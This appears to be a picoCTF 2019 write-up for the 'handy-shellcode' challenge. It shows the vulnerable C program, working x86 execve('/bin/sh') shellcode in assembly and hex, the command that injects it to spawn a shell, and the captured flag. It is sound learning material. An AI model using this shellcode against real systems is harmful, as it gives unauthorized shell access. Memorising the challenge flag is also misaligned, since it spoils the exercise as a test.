 
# Binary Exploitation - handy-shellcode (50 points)

## Challenge

*This program executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_6_f0b84e12a8162d64291fd16755d233eb on the shell server. Source.*

![Challenge](../images/binary_exploitation_handy-shellcode_challenge.png)

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}
```

## Flag

picoCTF{h4ndY_d4ndY_sh311c0d3_15d47ccd}

## Walkthrough

The function `void vuln(char *buf)` is vulnerable to a buffer overflow, because of a call to `gets()` (no boundaries) rather than `fgets()` (which read only a limited number of char). But, this is not what we are going to use here.

The end of *vuln.c* cast `buf` as pointer to a function taking no arguments and returning void. Hence, we can inject a shellcode in `buf` to spawn a shell.

Let's create a simple shell code to invoke `/bin/sh` using a system call to `sys_execve()`.

```asm
; shellcode.nasm
bits 32

shellcode:
    ; reset registers
    xor eax, eax
    xor ebx, ebx
    xor ecx, ecx
    xor edx, edx

    ; push null terminator and //bin/sh on the stack
    ; to keep bytes alignment.
    push eax
    push 0x68732f6e
    push 0x69622F2F
    
    ; /bin/sh\0 on top of the stack
    mov ebx, esp

    ; system call to sys_execve (system call 11)
    mov al, 11
    int 0x80
```

Now let's assemble it :

```bash
> nasm -f elf32 -o shellcode.o shellcode.nasm
> ld -m elf_i386 -s -o shellcode shellcode.o
```

And dump the shellcode :

```
> hexdump -v -e '"\\""x" 1/1 "%02x" ""' shellcode
\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80\x00\x2e\x73\x68\x73\x74\x72\x74\x61\x62\x00\x2e\x74\x65\x78\x74
```

OK, let's try this in the vulnerable binary :

```bash
m3oow@pico-2019-shell1:/problems/handy-shellcode_6_f0b84e12a8162d64291fd16755d233eb$ (echo -en "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80\x00\x2e\x73\x68\x73\x74\x72\x74\x61\x62\x00\x2e\x74\x65\x78\x74"; cat -) | ./vuln
Enter your shellcode:

1�1�1�1�Phn/shh//bi��
                    ̀
Thanks! Executing now...
ls
flag.txt  vuln  vuln.c
cat flag.txt
picoCTF{h4ndY_d4ndY_sh311c0d3_15d47ccd}
```
